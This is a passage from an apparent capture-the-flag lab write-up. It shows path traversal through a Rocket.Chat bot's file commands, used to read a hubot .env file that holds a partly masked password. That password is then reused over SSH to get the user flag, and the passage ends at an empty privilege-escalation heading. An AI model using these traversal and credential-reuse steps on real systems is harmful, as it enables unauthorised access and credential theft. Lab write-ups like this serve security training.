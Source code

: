```

# Also, stop looking at my drafts. Jeez!
```

### User

Using this, we added new subdomain to `/etc/hosts`. After login, we can see the `general` group chat. We got following information:
* Bot - Just call the bot by his name and say help. His name is recyclops. For eg: sending "recyclops help" will spawn the bot and he'll tell you what you can and cannot ask him.
* Group is read only but direct message to `recyclops` is possible.

Executing following commands to enumerate the machine:
```
recyclops time
recyclops list /
recyclops file /sale/portfolio.txt
recyclops list /../
# dwight user
recyclops file /../.hubot_history
recyclops list /../hubot/
recyclops file /../hubot/.env
 <!=====Contents of file /../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queen***********
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
```

Getting the user flag:
```
$ ssh dwight@office.paper
dwight@office.paper's password: Queen***********
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$ cat user.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```

### Privilege Escalation
